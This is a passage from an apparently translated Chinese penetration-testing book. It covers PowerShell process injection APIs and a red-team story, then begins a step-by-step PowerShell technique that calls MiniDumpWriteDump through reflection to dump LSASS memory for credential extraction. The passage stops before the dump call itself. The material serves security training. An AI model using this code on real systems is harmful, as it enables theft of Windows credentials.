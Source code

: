 图 12.2 – 执行的有效负载

请注意，还有一些相关的函数叫做**VirtualAllocEx()**和**CreateRemoteThread()**。它们有什么区别呢？这两个函数实现的效果是一样的，只不过是作用于*另一个*进程的内存。通过在这里使用这些函数，PowerShell 解释器正在它自己的内存中分配空间并在自己的进程下启动一个新线程。秉持着我们的口号，*防御不可傻*，有很多方法可以捕捉到这种行为。然而，要跟上所有变化是非常困难的，而且有些厂商直到今天仍然依赖旧的方法。保持灵活的思维！

## 挑战自我 – 使用 PowerShell 进行即时 LSASS 内存转储

让我们继续使用 PowerShell 与 Windows API 进行实时交互的主题。这一次，我们不打算注入任何内容；我们要使用 Windows 本地的调试功能来攻击 **本地安全授权服务器服务** (**LSASS**)。这种行为 *应该* 被拦截，但我们发现，在某些配置和某些 AV 供应商的情况下，这仍然有效。

战争故事 – 一个真实的攻击场景

最近，我参与了一次主要基于 Windows 10 环境的红队评估。团队中的一位成员编写了一个精妙的工具，利用 Windows 本地的内存转储方法来转储 LSASS 内存，并调用 Mimikatz 提取凭证。这个工具一直都能正常工作，直到有一天，终端保护软件更新了，开始拦截它。几周后，我在一台安装了流行远程控制软件 VNC、且密码较弱的主机上工作，而 Windows 会话也保持解锁状态。因此，我可以虚拟地坐到键盘前。我写出了同样工具的 PowerShell 版本，然后将文本托管为一个网页。通过目标 PC 上的浏览器，我访问了该页面，复制了 PowerShell 脚本的文本，将其粘贴到 PowerShell 会话中并按下回车。它成功了！我得到了 LSASS 内存的转储，而且不需要下载任何东西。

这篇写得很简短，一旦你习惯了，就能省去一些代码行。和我们的内存注入攻击类似，我们正在利用本地方法。在这种情况下，我们使用了 **MiniDumpWriteDump()**，这是一个为我们创建小转储文件的函数。我们可以指定要转储的进程，那么让我们看看当我们尝试对 LSASS 进程进行操作时会发生什么。开始吧：

```
$WinErrRep = [PSObject].Assembly.GetType('System.Management.Automation.WindowsErrorReporting')
```

```
$werNativeMethods = $WinErrRep.GetNestedType('NativeMethods', 'NonPublic')
```

```
$Flags = [Reflection.BindingFlags] 'NonPublic, Static'
```

```
$MiniDumpWriteDump = $werNativeMethods.GetMethod('MiniDumpWriteDump', $Flags)
```

到目前为止，一切顺利。我们引入了 **WindowsErrorReporting**，它允许我们在某些崩溃发生时找出问题所在。本质上，我们希望能够像调查普通的 **蓝屏死机** (**BSoD**) 崩溃一样，调查 LSASS。在我们可以使用的各种方法中，我们选择了 **MiniDumpWriteDump()**。现在，我们需要定义目标进程以及转储文件的目的地。

```
$MiniDumpfull = [UInt32] 2
```

```
$lsass = Get-Process lsass
```

```
$ProcessId = $lsass.Id
```

```
$ProcessName = $lsass.Name
```

```
$ProcessHandle = $lsass.Handle
```

```
$ProcessFileName = "$Home\Desktop\pirate_booty.dmp"
```
